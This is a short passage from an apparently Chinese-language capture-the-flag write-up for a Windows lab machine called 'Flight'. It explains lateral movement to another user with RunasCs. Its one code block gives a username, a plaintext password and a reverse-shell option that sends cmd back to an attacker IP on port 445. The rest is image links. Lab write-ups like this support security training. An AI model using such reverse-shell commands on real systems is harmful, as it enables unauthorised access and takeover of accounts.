 
![image-20250429161800430](./Flight-Windows_active/image-20250429161800430.png)

## RunasCs.exe--flight\C,Bum 

可以用该工具横向到其他用户

![image-20250429161653788](./Flight-Windows_active/image-20250429161653788.png)

```
./run.exe C.Bum Tikkycoll_431012284 -r 10.10.16.4:445 cmd
```

![image-20250429161646771](./Flight-Windows_active/image-20250429161646771.png)
